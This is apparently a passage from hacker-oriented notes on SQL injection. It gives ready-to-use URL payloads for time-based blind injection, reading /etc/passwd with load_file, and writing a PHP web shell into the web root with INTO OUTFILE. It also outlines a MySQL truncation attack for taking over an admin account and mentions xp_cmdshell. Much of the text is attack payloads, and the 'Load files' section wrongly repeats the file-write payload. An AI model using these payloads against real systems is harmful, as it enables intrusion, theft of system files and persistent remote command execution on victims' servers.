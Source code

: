 #### Using sleep

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

	 http://example.com/photoalbum.php?id=1-sleep(4)

If it lods for four seconds exta we know that the database is processing our sleep() command.

### Get shell from sql-injection

The good part about mysql from a hacker-perspective is that you can actaully use slq to write files to the system. The will let us write a backdoor to the system that we can use.

#### Load files

UNION SELECT 1, load_file(/etc/passwd) #

	 http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
	shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

#### Write files

	 http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
	shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

	http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
	shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'

#### MSSQL - xp_cmdshell

You can run commands straight from the sql-query in MSSQL.

## Truncating Mysql Vulerability

Basically this happens when you don't validate the length of user input. Two things are needed for it to work:

- Mysql does not make comparisons in binary mode. This means that "admin" and "admin " are the same.
- If the username column in the database has a character-limit the rest of the characters are truncated, that is removed. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

With this information we can create a new admin-user and have our own password set to it. So if the max-length is 20 characters we can insert the following string

	 admin               removed

This means that the "removed" part will be removed/truncated/deleted. And the trailing spaces will be removed upon insert in the database. So it will effectively be inserted as "admin".

## References

http://resources.infosecinstitute.com/sql-truncation-attack/http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheethttp://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/